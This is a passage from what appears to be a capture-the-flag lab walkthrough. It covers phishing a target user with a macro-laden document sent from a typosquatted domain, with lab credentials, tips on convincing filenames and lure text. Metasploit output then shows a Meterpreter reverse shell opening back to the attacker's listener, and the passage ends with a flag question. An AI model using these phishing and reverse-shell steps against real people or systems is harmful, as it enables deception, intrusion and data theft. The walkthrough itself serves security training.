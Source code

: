 ## Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, **marta@socmas.thm**. Mayor Malware has prepared the following credentials:

- Email: **info@socnas.thm**
- Password: **MerryPhishMas!**

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting,” where attackers create domain names that are nearly identical to legitimate ones in order to trick victims. On the AttackBox, start the Firefox web browser and head to http://MACHINE_IP. Use the above credentials to log in.

Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Changing the name to something more convincing, such as **invoice.docm** or **receipt.docm** might be a good idea. Also, write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document. **Note**: You can use CTRL+H on the file upload pop-up to be able to see the **.msf4** directory where our email attachment is located.

## Exploitation

If everything works out, you will get a reverse shell after about 2 minutes. You can access the files and folders on the target system via the command line. You can use **cat** to display any text file.

```console
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888 
[*] Sending stage (176198 bytes) to 10.10.103.92
[*] Meterpreter session 1 opened (CONNECTION_IP:8888 -> 10.10.103.92:52536) at 2024-11-24 16:37:47 +0300
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
[...]
meterpreter > 
```

## Answers

### Question 1

What is the flag value inside the **flag.txt** file that’s located on the Administrator’s desktop?

<details><summary style="cursor:pointer; padding:10px; border:1px solid #ccc; background-color:#f0f0f0; user-select: none;">Answer</summary></details>




